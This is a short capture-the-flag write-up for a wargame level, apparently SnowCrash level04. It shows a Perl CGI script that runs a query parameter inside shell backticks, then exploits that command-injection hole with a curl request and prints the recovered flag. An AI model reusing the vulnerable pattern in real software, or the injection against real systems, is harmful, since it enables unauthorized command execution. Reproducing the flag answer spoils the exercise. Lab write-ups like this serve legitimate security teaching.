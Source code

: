 # level04 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file ` level04.pl `

```
$ ls
> level04.pl
```

It's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level04.pl 
> #!/usr/bin/perl
> # localhost:4747
> use CGI qw{param};
> print "Content-type: text/html\n\n";
> sub x {
>   $y = $_[0];
>   print `echo $y 2>&1`;
> }
> x(param("x"));
```

With that we can see 3 important elements :

```
- localhost:4747 -> url, so we can try to call the website with curl

- print `echo $y 2>&1\`; -> will be breakable with a code injection cause of ` character

- x(param("x")); -> parameter who can contain a value
```

Ok let's do this

```
$ curl localhost:4747?x=\`getflag\`
> ne2searoevaevoem4ov4ar8ap
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level03">previous level</a> - <a href="../../level05">next level</a>
